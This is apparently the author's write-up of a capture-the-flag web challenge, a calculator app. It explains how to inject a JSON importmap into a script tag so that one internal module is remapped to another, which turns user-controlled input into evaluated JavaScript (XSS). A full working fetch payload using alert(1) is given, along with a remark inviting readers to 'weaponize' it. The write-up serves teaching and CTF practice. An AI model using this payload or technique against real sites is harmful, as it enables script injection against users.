 # Primary Bug & Solution

## Setup

Yet Another Calculator App is a small web application that lets users describe a mathematical expresssion and render it into an automatic calculation page with an arbitrary number of inputs.

The initial expression can either be inputted via a custom DSL or through the AST representation of that same DSL. In either case, the server will template that input into a script tag with the content type set to a custom content type based off of the representation choice. This input is strictly checked to be a JSON object, and sanitized before being rendered.

The front-end code is a small collection of native-js ES6 modules that each do one step of the parsing and rendering process.

## Solution

This problem is a bit of a troll in that the custom DSL parsing is mor eor less irrelevant to the solution. It was introduced as a way to make the mime-type controll less contrived, and also because I like writing parsers. The intended solution is to do a pure-json injection into the script tag with the mime-type `importmap`. Although they're poorly documented, `importmap`s have been in chrome for the past several versions and are used with ES6 modules to descirbe howo named imports should be resolved.

For instance, if I wanted to import the library Moment, I could reference it in my code as `import { DateTime } from "moment"`, and then use an importmap to specify the CDN path of moment. The purpose of it is to clean up code using ESM, but because it hasn't been approved the documentation is limited.

However, we use this strange behavior to our advantage. Although CSP prevents us from accessing external sources, we can use it to remap internal aspects of the problem.

## Payload

Lets look at `calc.mjs`

```js
import astToJs from "/js/ast-to-js.mjs";
import evalCode from "/js/eval-code.mjs";
import lex from "/js/lex.mjs";
import parse from "/js/parse.mjs";

// Element declarations and unrelated setup
// ....

try {
    let ast;
    if (astProgram.type === "application/x-yaca-code") {
        const tokens = lex(program.code);
        ast = parse(tokens);
    } else {
        ast = JSON.parse(program.code);
    }

    const jsProgram = astToJs(ast);
    evalCode(jsProgram);
} catch(e) {
    // ...
}
```

If `astProgram.type === "importmap"`, then the program is going to parse `program.code` as a serialized AST, convert the AST to JS, and then evaluate it. Since the parser also keeps track of variables, the return type of `astToJs` is

```ts
interface ParsedProgram {
    code: string;
    variables: Set<string>;
}
```

Thus, we need a payload that both serves as an importmap and can be used to get code execution. Since `ast` if user-controlled and not overly sanitized, we can uses it to get code execution if `astToJs` is actually `evalCode`. Since they're both default imports, all that requires is remapping `/js/ast-to-js.mjs` to `/js/eval-code.mjs`!

Here was my full payload:

```js
const exploit = "alert(1)";

fetch("/upload", {
    method: "POST",
    headers: { "content-type": "application/json" },
    body: JSON.stringify({
        type: "importmap",
        program: {
            name: "Pwned",
            code: JSON.stringify({
                code: exploit,
                variables: [],
            }),
            imports: {
                "/js/ast-to-js.mjs": "/js/eval-code.mjs"
            }
        }
    })
})
    .then((x) => x.text())
    .then((p) => window.open(`${window.location.href}${p.slice(1)}`, "_blank"))
```

Just weaponize `exploit` and you can abuse importmaps into XSS!

# Unintended solution

Much to my surprise, there was an unintended solution to this problem. Discovered by a few of the teams, it involves `String.prototype.replace` being incredibly cursed. For more details, check out [this writeup](https://gitea.nitowa.xyz/nitowa/PlaidCTF-YACA).